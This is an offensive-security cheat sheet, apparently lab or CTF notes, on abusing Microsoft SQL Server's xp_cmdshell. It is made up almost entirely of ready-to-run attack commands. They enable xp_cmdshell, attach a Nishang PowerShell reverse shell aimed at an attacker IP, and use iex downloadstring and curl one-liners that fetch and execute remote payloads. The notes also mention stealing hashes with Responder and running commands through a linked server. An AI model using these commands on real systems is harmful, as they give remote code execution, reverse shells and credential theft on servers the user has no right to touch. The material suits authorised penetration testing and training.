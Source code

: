 
### enable cmdshell

```
enable_xp_cmdshell
```

### Download and run a reverse shell

down load reverseshell from 
```
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
```
add to the bottom

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.9 -Port 6969

```
Start python server + listener

```
xp_cmdshell powershell iex(new-object net.webclient).downloadstring(\"http://10.10.16.9/psshell.ps1\")
```

### SQL console example in DNN
paste execute, one at a time.
```
EXEC sp_configure 'show advanced options', '1'
```
```
RECONFIGURE
```
```
EXEC sp_configure 'xp_cmdshell', '1' 
```
```
RECONFIGURE
```

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/06368d4a-2f68-444e-a13f-42c38d5c3d56)

Download and execute a reverse shell
```
xp_cmdshell 'curl -o C:\Windows\Temp\shell.exe http://172.16.8.120:6565/shell.exe && C:\Windows\Temp\shell.exe'
```
## steal hash with responder

<img width="812" alt="Screen Shot 2022-08-14 at 8 12 32 PM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/c6e0d9a0-3040-4f8b-a4d4-4ce6b17a0340">



## xmdshell in a linked server
`1> EXECUTE('xp_cmdshell ''more "C:/Users/Administrator/Desktop/flag.txt"''') AT [LOCAL.TEST.LINKED.SRV] 2> go`


